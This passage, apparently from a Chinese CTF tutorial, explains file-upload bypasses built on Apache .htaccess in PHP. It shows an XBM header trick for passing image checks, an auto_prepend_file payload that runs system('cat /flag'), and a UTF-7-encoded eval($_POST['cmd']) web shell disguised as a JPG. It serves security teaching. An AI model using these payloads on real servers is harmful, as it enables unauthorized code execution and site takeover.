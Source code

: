 要注意的是通常我们会在上传文件中加上 gif 的文件头 GIF89a 去绕过，但是. htaccess 文件用这种方法虽然能上传成功，但是无法生效。我们可以在. htaccess 文件前面加上：

```
#define 4c11f3876d494218ff327e3ca6ac824f\_width xxx(大小)#define 4c11f3876d494218ff327e3ca6ac824f\_height xxx(大小)
```

这里的原理其实是伪造为 xbm 文件，xbm 文件是一种图片格式的文件。

![](https://mmbiz.qpic.cn/mmbiz_png/Go7NSXrKWd6Jd36S86K7pfK7YG3YwoibbUznQOwdZOrXekKJSOaVF816jbf6E9IonDn6icSibwyia4iaRv1ntkhkibVw/640?wx_fmt=png)

在 php 的官方文档中，exif\_imagetype( ) 是可以支持 xbm 类型的文件的。

**绕过拼接字符**

比如近期的一道题目，其中部分代码如下：

```
file\_put\_contents($filename, $content . "\\nHello, world");
```

这一题的思路是利用. htaccess 文件把恶意代码包含进 index.php 里面，但是在变量 $content 后面拼接了一个 "\\nHello, world"，这样的话会不符合. htaccess 文件的语法，导致服务器报一个 500 错误，这时候我们可以使用反斜杠先把 \\ n 转义，再在加入的恶意代码前面加上一个 #注释掉后面的内容，这样的话就可以绕过 "\\nHello, world"，从而使得. htaccess 符合语法。

最终 payload 结果如下：

```
php\_value auto\_prepend\_fil\\e .htaccess#<?php system('cat /fla'.'g');?>\\&filename=.htaccess
```

这里要注意的是在传参的时候都是要 url 编码的。

**.htaccess 的常见用法**

首先了解一下 php\_value 和 php\_flag：  

*   php\_value：设定指定的值，但不能设定布尔值；
    
*   php\_flag：用来设定布尔值的配置指令。
    

这两个可以用来设置指令的值，使得在 Apache 配置文件内部修改 PHP 的配置，那么这些指令有哪些呢，比如说 auto\_prepend\_file，display\_errors 等等，具体的话参考官方给出的：php.ini 配置选项列表

当然上面说的这两个都是可以用于. htaccess 中的，同样功能的还有 php\_admin\_value 和 php\_admin\_flag，但是这两个无法用于. htaccess 中。

下面介绍两个最常见的用法：

**特殊编码绕过**

如果对文件内容进行过滤了 <?，同时版本 php7 已经抛弃了 < script language='php'> 和<%，使得我们无法利用 php 其他风格的标签去绕过。这里可以考虑在. htaccess 中设置 UTF-7 字符或者其他字符进行绕过。

我们可以先上传一个 shell.jpg 内容如下：

```
#define 4c11f3876d494218ff327e3ca6ac824f\_width 1337#define 4c11f3876d494218ff327e3ca6ac824f\_height 1337+ADw?php +AEA-eval(+ACQAXw-POST+AFs'cmd'+AF0)+ADs?+AD4-
```

第三句是经过 UTF-7 编码的，在线 UTF-7 编码：UTF-7 Encoder。

